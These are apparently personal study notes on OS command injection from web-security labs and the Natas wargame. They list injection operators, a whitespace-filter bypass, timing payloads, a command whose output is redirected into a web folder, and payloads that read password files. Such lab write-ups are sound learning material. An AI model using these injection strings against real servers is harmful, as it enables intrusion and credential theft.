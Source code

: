 # OS Injection

## We Know

Using `; & &&` with URL encoding

`${IFS}` to bypass whitespace filter and curly brace expansion

### Lab 2

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

`||` is conditional if right but why use it at the end of the command as well?

Well `||sleep 10;` works but we get a 500 Server Error

`|sleep 10|` too

`;sleep 10` doesn't work so `|` is the only operator that breaks the flow

`&` and `&&` doesn't work at all so ggs

### Lab 3

`||whoami>/var/www/images/hi.txt||`

`/image?filename=hi.txt`

The writable folder, we found cus of these boys - how else would we know?

<div align="left"><figure><img src="../../.gitbook/assets/image (3).png" alt="" width="563"><figcaption></figcaption></figure></div>

{% embed url="https://github.com/payloadbox/command-injection-payload-list" %}

## Natas

### 9 & 10

<div align="left"><figure><img src="../../.gitbook/assets/image (83).png" alt="" width="417"><figcaption></figcaption></figure></div>

In prev challenge we executed multiple commands in the same line using ;

`; cat /etc/natas_webpass/natas10`

but as we can see the ; is blocked here so what do.

the other standard ways of exec multiple commands include &&, || and those are blocked too.

```
.* /etc/natas_webpass/natas11
```

so `grep -i .* /etc/natas_webpass/natas11 dictionary.txt` is the final output

I've never seen this before nor does this show up in any forums so how legit is this?

This .\* is specific for grep to read the contents of a file.
